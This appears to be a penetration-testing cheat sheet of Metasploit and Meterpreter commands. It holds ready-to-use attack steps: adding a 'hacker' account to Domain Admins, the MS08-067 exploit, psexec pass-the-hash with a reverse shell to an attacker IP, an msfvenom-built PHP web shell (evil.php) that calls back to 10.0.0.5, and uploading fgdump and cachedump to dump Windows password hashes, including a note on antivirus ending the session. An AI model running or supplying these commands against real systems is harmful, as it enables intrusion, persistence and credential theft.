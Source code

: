 ### Meterpreter - Add User Account
```
add_user hacker password -h <target IP>
add_group_user "Domain Admins" hacker -h <target IP>
```
------------------------------------------------------------------------------------------------------

### MS08-067
```
use exploit/windows/smb/ms08_067_netapi
set THREADS 25
check <CIDR>
```
------------------------------------------------------------------------------------------------------

### psexec
```
use windows/smb/psexec
set RHOST <target IP>
set SMBPass <Administrator hash from another target>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker IP>
exploit

```
------------------------------------------------------------------------------------------------------

### Web shell php meterpreter
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.0.5 -f raw > evil.php

Upload file to target web server.

use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.0.0.5
exploit

Execute evil.php on web server.

```
------------------------------------------------------------------------------------------------------

##  Below here are OLD notes that have NOT been organized.  ===

```
(Open a new tab in Konsole)
     cp /pentest/windows-binaries/passwd-attack/fgdump.exe /tmp/
     cp /pentest/windows-binaries/passwd-attack/cachedump.exe /tmp/
(Go back to the Metasploit tab)
     upload /tmp/fgdump.exe c:\\
Note: If the AV recognizes the file, your meterpreter session will end.
Re-exploit the box and upload cachedump.exe.
If upload is successful
     shell                                    Drop into a Windows shell.
     cd \                                     Change to root directory.
==========

```
